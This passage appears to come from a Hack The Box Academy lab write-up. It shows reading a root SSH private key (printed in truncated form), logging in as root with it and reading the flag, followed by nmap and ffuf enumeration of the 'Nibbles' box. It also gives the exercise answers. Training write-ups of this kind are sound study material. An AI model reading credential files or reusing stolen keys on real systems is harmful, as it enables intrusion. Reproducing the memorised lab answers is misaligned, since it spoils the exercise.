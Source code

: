 ```
cd .ssh
cat id_rsa
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
....
QfPM8OxSjcVJCpAAAAEXJvb3RANzZkOTFmZTVjMjcwAQ==
-----END OPENSSH PRIVATE KEY-----
```

In our attacker machine we save that id_rsa key in our folder

```
echo "the key" > id_rsa
```

And now we can login as root

```
ssh root@$ip -p 31459 -i id_rsa
```

And cat the flag:

```
cat /root/flag.txt 
```



**Results**:  HTB{pr1v1l363_35c4l4710n_2_r007}


### Attacking your first box

#### Nibbles - Enumeration

 **Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)**


```
sudo nmap -sC -sV $ip
```

**Results**:  2.4.18


#### [Nibbles - Initial Foothold](https://academy.hackthebox.com/module/77/section/852)

**Gain a foothold on the target and submit the user.txt flag**

Enumerate resources


```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$ip/nibbleblog/FUZZ -H "HOST: $ip$"

dirb http://$ip/nibbleblog/
```
